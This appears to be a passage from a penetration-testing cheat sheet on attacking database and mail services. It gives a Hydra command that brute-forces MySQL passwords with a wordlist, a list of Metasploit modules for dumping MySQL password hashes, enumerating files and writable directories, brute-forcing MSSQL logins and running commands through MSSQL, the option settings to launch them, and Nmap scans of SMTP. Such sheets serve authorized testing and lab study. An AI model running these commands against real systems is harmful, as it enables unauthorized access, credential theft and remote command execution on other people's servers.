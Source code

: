#### Hydra

```bash
hydra -l <USER> -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <TARGET_IP> mysql
```

#### Metasploit

```bash
use auxiliary/scanner/mysql/mysql_schemadump
use auxiliary/scanner/mysql/mysql_writable_dirs
use auxiliary/scanner/mysql/mysql_file_enum
use auxiliary/scanner/mysql/mysql_hashdump
use auxiliary/scanner/mysql/mysql_login

## MS Sql
use auxiliary/scanner/mssql/mssql_login
use auxiliary/admin/mssql/mssql_enum
use auxiliary/admin/mssql/mssql_enum_sql_logins
use auxiliary/admin/mssql/mssql_exec
use auxiliary/admin/mssql/mssql_enum_domain_accounts

# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

## set options depends on the selected module
set USERNAME root
set PASSWORD ""

set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
set VERBOSE false
set PASSWORD ""

set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
set PASSWORD ""

set USER_FILE /root/Desktop/wordlist/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set STOP_ON_SUCCESS true

set CMD whoami
exploit
```

### SMTP

#### Nmap

```bash
sudo nmap -p 25 -sV -sC -O <TARGET_IP>

nmap -sV -script banner <TARGET_IP>
```

